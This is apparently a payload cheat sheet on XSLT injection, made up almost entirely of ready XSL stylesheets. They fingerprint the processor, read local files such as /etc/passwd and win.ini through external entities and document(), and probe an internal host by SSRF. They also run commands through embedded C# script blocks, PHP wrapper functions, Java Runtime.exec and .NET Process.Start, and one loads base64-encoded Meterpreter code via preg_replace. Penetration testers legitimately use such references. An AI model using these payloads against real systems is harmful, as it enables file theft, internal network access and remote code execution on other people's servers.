# XSLT Injection

> Processing an unvalidated XSL stylesheet can allow an attacker to change the structure and contents of the resultant XML, include arbitrary files from the file system, or execute arbitrary code

## Summary

- [Tools](#tools)
- [Exploit](#exploit)
  - [Determine the vendor and version](#determine-the-vendor-and-version)
  - [External Entity](#external-entity)
  - [Read files and SSRF using document](#read-files-and-ssrf-using-document)
  - [Remote Code Execution with Embedded Script Blocks](#remote-code-execution-with-embedded-script-blocks)
  - [Remote Code Execution with PHP wrapper](#remote-code-execution-with-php-wrapper)
  - [Remote Code Execution with Java](#remote-code-execution-with-java)
  - [Remote Code Execution with Native .NET](#remote-code-execution-with-native-net)
- [References](#references)

## Tools

## Exploit

### Determine the vendor and version

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
	<xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<br />Version: <xsl:value-of select="system-property('xsl:version')" />
<br />Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br />Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
</body>
</html>
```

### External Entity

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "C:\secretfruit.txt">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    Fruits &ext_file;:
    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>

</xsl:stylesheet>
```

### Read files and SSRF using document

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:copy-of select="document('http://172.16.132.1:25')"/>
    <xsl:copy-of select="document('/etc/passwd')"/>
    <xsl:copy-of select="document('file:///c:/winnt/win.ini')"/>
    Fruits:
	    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

### Remote Code Execution with Embedded Script Blocks

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="urn:my-scripts">

<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
</msxsl:script>

  <xsl:template match="/fruits">
  --- BEGIN COMMAND OUTPUT ---
	<xsl:value-of select="user:execute()"/>
  --- END COMMAND OUTPUT ---	
  </xsl:template>
</xsl:stylesheet>
```

### Remote Code Execution with PHP wrapper

Execute the function `readfile`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<xsl:value-of select="php:function('readfile','index.php')" />
</body>
</html>
```

Execute the function `scandir`.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
        <xsl:template match="/">
                <xsl:value-of name="assert" select="php:function('scandir', '.')"/>
        </xsl:template>
</xsl:stylesheet>
```

Execute a PHP meterpreter using PHP wrapper.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
        <xsl:template match="/">
                <xsl:variable name="eval">
                        eval(base64_decode('Base64-encoded Meterpreter code'))
                </xsl:variable>
                <xsl:variable name="preg" select="php:function('preg_replace', '/.*/e', $eval, '')"/>
        </xsl:template>
</xsl:stylesheet>
```

### Remote Code Execution with Java

```xml
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
      <xsl:variable name="rtobject" select="rt:getRuntime()"/>
      <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
      <xsl:variable name="processString" select="ob:toString($process)"/>
      <xsl:value-of select="$processString"/>
    </xsl:template>
  </xsl:stylesheet>
```

```xml
<xml version="1.0"?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:java="http://saxon.sf.net/java-type">
<xsl:template match="/">
<xsl:value-of select="Runtime:exec(Runtime:getRuntime(),'cmd.exe /C ping IP')" xmlns:Runtime="java:java.lang.Runtime"/>
</xsl:template>.
</xsl:stylesheet>
```

### Remote Code Execution with Native .NET

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:App="http://www.tempuri.org/App">
    <msxsl:script implements-prefix="App" language="C#">
      <![CDATA[
        public string ToShortDateString(string date)
          {
              System.Diagnostics.Process.Start("cmd.exe");
              return "01/01/2001";
          }
      ]]>
    </msxsl:script>
    <xsl:template match="ArrayOfTest">
      <TABLE>
        <xsl:for-each select="Test">
          <TR>
          <TD>
            <xsl:value-of select="App:ToShortDateString(TestDate)" />
          </TD>
          </TR>
        </xsl:for-each>
      </TABLE>
    </xsl:template>
  </xsl:stylesheet>
```

## References

* [From XSLT code execution to Meterpreter shells - 02 July 2012 - @agarri](https://www.agarri.fr/blog/archives/2012/07/02/from_xslt_code_execution_to_meterpreter_shells/index.html)
* [XSLT Injection - Fortify](https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection)
* [XSLT Injection Basics - Saxon](https://blog.hunniccyber.com/ektron-cms-remote-code-execution-xslt-transform-injection-java/)